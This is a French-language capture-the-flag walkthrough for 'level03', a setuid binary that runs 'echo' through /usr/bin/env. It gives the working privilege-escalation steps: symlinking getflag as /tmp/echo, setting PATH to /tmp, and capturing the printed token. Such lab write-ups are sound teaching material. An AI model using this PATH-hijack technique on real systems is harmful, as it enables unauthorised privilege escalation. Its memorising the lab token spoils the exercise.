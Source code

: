 # Level03

Dans ce niveau, vous êtes confronté à un fichier exécutable nommé "level03". Lorsque vous exécutez ce binaire, vous obtenez le message "Exploit me".
```bash
./level03
Exploit me
```

## Étape 1 : Analyse du fichier exécutable
Tout d'abord, vous pouvez utiliser la commande strings pour analyser le contenu du fichier exécutable "level03". La commande strings extrait les séquences de caractères lisibles à partir d'un fichier binaire. Voici comment vous pouvez l'utiliser :

avec la command strings on peux analyse la fichier

```bash
strings level03
/lib/ld-linux.so.2
KT{K
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
/usr/bin/env echo Exploit me
```
Cette commande vous permet de voir les chaînes de caractères contenues dans le binaire. En examinant ces chaînes, vous pouvez repérer des informations utiles.

Dans la sortie de strings, vous pouvez voir une référence à "/usr/bin/env" et des droits "root" sur "echo".


## Étape 2 : Exploitation de la vulnérabilité
Vous pouvez exploiter la vulnérabilité en utilisant un lien symbolique ("symlink") vers un binaire qui vous permet d'exécuter la commande "getflag". Voici comment procéder :
```bash
ln -s /bin/getflag /tmp/echo
```

Cela crée un lien symbolique nommé "echo" dans le répertoire "/tmp" qui pointe vers "/bin/getflag".

Modifiez la variable d'environnement "PATH" pour inclure le répertoire "/tmp", afin que le binaire "echo" soit prioritaire sur le binaire système "echo". Vous pouvez le faire avec la commande ```export```:
```bash
export PATH=/tmp
```
Exécutez à nouveau le binaire "level03" :

```bash
./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
En exécutant le binaire "level03" avec cette configuration, il appellera maintenant votre binaire "echo" (qui est en réalité un lien symbolique vers "getflag") au lieu de l'outil système "echo". Cela permettra d'exécuter la commande "getflag" et d'obtenir le jeton pour passer au niveau suivant.

